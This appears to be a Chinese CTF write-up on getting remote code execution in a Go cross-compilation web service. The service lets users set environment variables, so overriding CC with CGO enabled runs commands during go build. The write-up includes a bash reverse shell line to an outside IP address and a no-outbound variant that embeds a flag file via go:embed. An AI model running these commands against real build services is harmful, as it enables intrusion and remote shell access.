




# Go build 环境变量注入RCE-先知社区

> **来源**: https://xz.aliyun.com/news/16893  
> **文章ID**: 16893

---

## Go build 环境变量注入

服务端提供了一个交叉编译 Go 程序的功能, 在编译的时候只有环境变量可控, 所以思路就是通过控制环境变量实现 RCE

main.go源码如下

```
package main

import (
    "embed"
    "fmt"
    "github.com/gin-gonic/gin"
    "net/http"
    "os"
    "os/exec"
)

//go:embed public/*
var fs embed.FS

func IndexHandler(c *gin.Context) {
    c.FileFromFS("public/", http.FS(fs))
}

func BuildHandler(c *gin.Context) {
    var req map[string]interface{}

    if err := c.ShouldBindJSON(&req); err != nil {
        c.JSON(http.StatusOK, gin.H{"error": "Invalid request"})
        return
    }

    if !PathExists("/tmp/build/") {
        os.Mkdir("/tmp/build/", 0755)
    }

    defer os.Remove("/tmp/build/main.go")
    defer os.Remove("/tmp/build/main")

    os.Chdir("/tmp/build/")
    os.WriteFile("main.go", []byte(req["code"].(string)), 0644)
    var env []string

    for k, v := range req["env"].(map[string]interface{}) {
        env = append(env, fmt.Sprintf("%s=%s", k, v))
    }

    cmd := exec.Command("go", "build", "-o", "main", "main.go")
    cmd.Env = append(os.Environ(), env...)

    if err := cmd.Run(); err != nil {
        c.JSON(http.StatusOK, gin.H{"error": "Build error"})
    } else {
        c.File("/tmp/build/main")
    }
}

func PathExists(p string) bool {
    _, err := os.Stat(p)
    if err == nil {
        return true
    }
    if os.IsNotExist(err) {
        return false
    }
    return false
}

func main() {
    r := gin.Default()
    r.GET("/", IndexHandler)
    r.POST("/build", BuildHandler)
    r.Run(":8000")
}

```

这个 `BuildHandler` 函数是一个基于 Gin 框架的 HTTP 请求处理函数，用于接收客户端发送的请求，编译 Go 代码，并返回编译后的可执行文件。

执行编译命令:

```
cmd := exec.Command("go", "build", "-o", "main", "main.go")
cmd.Env = append(os.Environ(), env...)

if err := cmd.Run(); err != nil {
    c.JSON(http.StatusOK, gin.H{"error": "Build error"})
} else {
    c.File("/tmp/build/main")
}

```

* `exec.Command("go", "build", "-o", "main", "main.go")` 创建一个 `exec.Cmd` 对象，用于执行 `go build -o main main.go` 命令，将 `main.go` 编译为 `main` 可执行文件。
* `cmd.Env = append(os.Environ(), env...)` 将当前环境变量与请求中的环境变量合并，并设置为命令的执行环境。

我们看一下环境中的Go环境变量有哪些：  
  
我们在官方文档中找到CC，定义了编译C语言的命令  
<https://pkg.go.dev/cmd/go#hdr-Environment_variables>  


这个环境变量存在是因为Go 语言支持 CGO 特性, 即使用 Go 调用 C 的函数  
编写一个使用 CGO 的 Go 程序需要引入 C 这个包, 即 `import "C"`，这样在 build 的时候就会调用 gcc  
demo如下：

```
package main  
  
// typedef int (*intFunc) ();  
//  
// int  
// bridge_int_func(intFunc f)  
// {  
//		return f();  
// }  
//  
// int fortytwo()  
// {  
//	    return 42;  
// }  
import "C"  
import "fmt"  
  
func main() {  
    f := C.intFunc(C.fortytwo)  
    fmt.Println(int(C.bridge_int_func(f)))  
    // Output: 42  
}
```

注释中的C代码会被gcc进行编译。

### 出网情况

既然我们可以控制环境变量，我没将CC的指令改为反弹shell，就可以RCE

```
export="bash -c  'bash -i >& /dev/tcp/124.220.37.173/2333 0>&1'"
```

然后开启CGO传入代码含有C代码

```
package main
import "C"

func main() {
    println("hello cgo")
}
```

http包poc如下  
  
成功反弹shell  


### 不出网情况

我们可以进一步思考, 如果环境不出网, 如何命令执行回显?

我们可以使用 **Go embed 特性** :  
**Go 语言在编译的时候会将被 embed 的文件一起打包到二进制程序内部**

### go embed特性

`Go embed` 是 Go 语言从 **Go 1.16** 版本开始引入的一个特性，它允许开发者将外部文件（如配置文件、静态资源等）直接嵌入到 Go 的二进制程序中。这意味着在编译时，这些文件会被打包到生成的二进制文件中，程序运行时可以直接访问这些嵌入的文件，而无需依赖外部的文件系统。

### 使用方法

`embed` 特性通过 `//go:embed` 指令来实现。以下是一些常见的用法：

嵌入单个文件demo

```
package main

import (
    _ "embed"
    "fmt"
)

//go:embed hello.txt
var s string

func main() {
    fmt.Println(s)
}
```

* `//go:embed hello.txt`：表示将 `hello.txt` 文件的内容嵌入到变量 `s` 中。
* `s` 是一个字符串变量，存储了 `hello.txt` 文件的内容。
* 运行程序时，`s` 的值就是 `hello.txt` 文件的内容。

那么就可以先通过 CC 环境变量注入在 go build 时将 flag 写入 /tmp/build 目录, 即项目目录, 因为 Go embed 不能打包位于项目目录之外的文件

先覆盖CC环境变量，执行命令将flag输出到build目录文件中

```
CC='bash -c "/readflag > /tmp/build/flag.txt"'
```

```
package main
import "C"

func main() {
    println("hello cgo")
}
```

然后 build 如下代码, 使用 `//go:embed flag.txt` 打包 flag.txt, 这一步不需要交叉编译

```
package main

import (
  "fmt"
  _ "embed"
)

//go:embed flag.txt
var s string

func main() {
    fmt.Println(s)
}
```

最后下载编译好的二进制文件到本地, 查找 flag

```
strings main | grep flag
```
